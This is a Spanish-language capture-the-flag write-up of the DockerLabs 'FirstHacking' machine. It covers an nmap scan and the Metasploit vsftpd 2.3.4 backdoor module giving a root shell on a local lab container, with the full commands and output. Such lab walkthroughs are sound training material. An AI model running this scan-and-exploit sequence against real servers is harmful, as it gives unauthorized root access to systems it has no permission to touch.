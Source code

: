 Lo primero que tenemos que hacer, es ir a la pagina de "dockerlabs.es" y bajarnos la maquina "FirstHacking".
Una vez hecho , descomprimimos el archivo, e inicializamos la maquina con el comando:
```
sudo bash auto_deploy.sh firsthacking.tar
```
Tras desplegarse la maquina, hacemos un NMAP. No necesitamos hacer un ARP-SCAN (o NETDISCOVER), porque ya sabemos la IP de la maquina victima.
```
nmap -p- --open -sCV -sS --min-rate 5000 -n -Pn -vvv 172.17.0.2
```
y vemos que tiene 1 solo puerto abierto, el 21 (FTP):
```
Discovered open port 21/tcp on 172.17.0.2
```
Como no tenemos ni usuario ni contraseña, no podemos entrar directamente. No obstante, en el resultado anterior nos dice:
```
PORT   STATE SERVICE REASON         VERSION
21/tcp open  ftp     syn-ack ttl 64 vsftpd 2.3.4
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix
```
Por lo que vemos que tiene una version "vsftpd 2.3.4", asi que buscaremos en Metasploit a ver si hay alguna vulnerabilidad:
```
msf6 > search vsftpd 2.3.4
```
Y nos dice:
```
#  Name                                Disclosure Date  Rank       Check  Description
-  ----                                -----------  	--------   -----  ---------
0 exploit/unix/ftp/vsftpd_234_backdoor  2011-07-03  	excellent   No    VSFTPD v2.3.4 Backdoor Command Execution
```
Como se puede observar hay un exploit de "Backdoor Command Execution", por lo que ahora solo tendremos que elegirlo y ver sus opciones:
```
msf6 > use 0   <==== Lo elegimos
[*] No payload configured, defaulting to cmd/unix/interact                                                 
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > options   <=== Vemos sus opciones
```
Parece que solo vamos a necesitar poner la IP de la maquina (RHOSTS):
```
Module options (exploit/unix/ftp/vsftpd_234_backdoor):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   CHOST                     no        The local client address
   CPORT                     no        The local client port
   Proxies                   no        A proxy chain of format
									   type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see
									   https://docs.metasploit.com/docs/using-met
                                       asploit/basics/using-metasploit.html
   RPORT    21               yes       The target port (TCP)
```
Por lo que pondremos "set RHOSTS 172.17.0.2" y ejecutamos "run":
```
msf6 exploit(unix/ftp/vsftpd_234_backdoor) > set RHOSTS 172.17.0.2
RHOSTS => 172.17.0.2

msf6 exploit(unix/ftp/vsftpd_234_backdoor) > run
```
Y vemos lo siguiente:
```
[*] 172.17.0.2:21 - Banner: 220 (vsFTPd 2.3.4)
[*] 172.17.0.2:21 - USER: 331 Please specify the password.
[+] 172.17.0.2:21 - Backdoor service has been spawned, handling...
[+] 172.17.0.2:21 - UID: uid=0(root) gid=0(root) groups=0(root)
[*] Found shell.
[*] Command shell session 1 opened (172.17.0.1:35539 -> 172.17.0.2:6200) at 2024-07-07 23:25:21 +0200
```
Ahora, al escribir "whoami" vemos que somos root. Aun asi, para obtener un prompt decente, escribimos tambien "script /dev/null -c bash"
```
whoami
root

script /dev/null -c bash
Script started, file is /dev/null

root@527d8a48acab:~/vsftpd-2.3.4#
```
Y listo, ya estaria la maquina hecha :)
